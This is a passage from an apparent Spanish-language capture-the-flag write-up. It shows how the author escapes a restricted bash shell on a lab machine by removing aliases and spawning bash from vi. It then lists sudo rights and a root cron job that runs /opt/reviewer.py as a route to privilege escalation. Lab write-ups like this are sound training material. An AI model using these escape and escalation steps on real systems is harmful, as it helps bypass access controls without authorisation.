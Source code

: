 
### Escapando de rbash

Al fin vemos el ojo de Elohim y no cesan sus amenazas, nos dice que estamos atrapados. Cierto es que si intentamos hacer comandos básicos como cd, cat, nano... no nos permite, ni siquiera tabular.

> Si intentamos conectarnos por SSH con `ssh-t "bash --noprofile --norc"` para saltárnosla, no funciona.

Estamos bajo una "restricted shell" (rbash), por lo que propongo una forma de escapar de este contexto utilizando vi. No obstante, vemos que vi tampoco funciona...
Lo que ocurre es que estamos bajo varios alias de dichos comandos, lo que podemos solucionar simplemente realizando un `unalias "comando deseado"`.

Una vez ya nos permite acceder a vi debemos introducir `:set shell=/bin/bash` y acto seguido `:shell`. Con esto habremos escapado de dicho contexto.

Al poco vemos que nos sale un mensaje indicando:

~~~
Broadcast message from root@principle (somewhere) (Thu Jul  6 15:05:01 2023):  
                                                                               
I have detected an intruder, stealing accounts: elohim
~~~

Ahora ya es root el que sabe de nuestra presencia. Vamos a indagar cómo podemos escalar privilegios.

> Es importante quitar todos los alias de los comandos que no funcionen, pues al salir del rbash se vuelven a activar.

Si revisamos con este usuario los comandos que podemos ejecutar como otro:

~~~bash
elohim@principle:/opt$ sudo -l
Matching Defaults entries for elohim on principle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User elohim may run the following commands on principle:
    (root) NOPASSWD: /usr/bin/python3 /opt/reviewer.py
~~~

Y si miramos el /etc/crontab vemos lo siguiente:

~~~bash
elohim@principle:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
*/5 * * * * root  /opt/reviewer.py
17 *  * * * root  cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6  * * 7 root  test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6  1 * * root  test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
~~~